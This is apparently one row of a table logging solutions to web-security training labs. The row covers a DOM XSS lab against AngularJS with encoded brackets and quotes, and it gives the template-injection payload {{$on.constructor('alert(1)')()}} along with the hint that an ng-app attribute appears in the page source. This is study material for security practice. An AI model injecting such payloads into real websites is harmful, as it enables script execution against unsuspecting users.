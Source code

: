 |11    |DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded                                       |{{$on.constructor('alert(1)')()}}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |ng-app attribute noted in the page source (AngularJS directive)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |DOM XSS, Practitioner                       |